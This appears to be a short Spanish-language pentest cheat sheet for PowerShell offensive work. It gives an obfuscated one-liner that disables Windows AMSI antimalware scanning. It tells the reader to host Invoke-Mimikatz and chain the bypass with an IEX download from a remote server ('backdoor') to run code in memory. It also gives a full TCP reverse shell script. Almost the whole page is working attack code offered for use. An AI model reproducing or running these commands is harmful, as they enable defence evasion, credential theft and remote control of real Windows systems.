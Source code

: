 # Amsi Bypass Powershell #

$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)

# Ejemeplo de uso:

Guardar en un un archivo Mimikatz del este repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

Abres un servidor con Python o Apache y guardas el archivo con cualquier formato hasta en Webhost/Pastebin/Github etc, cualquier servidor con formato Raw

# Ejemplo:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/backdoor)
```

Con lo anterior Bypasseas amsi y haces una descarga del codigo del servidor y lo ejecutas en memoria

Tambien puedes guardar una reverse shell en el servidor

# Ejemplo:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

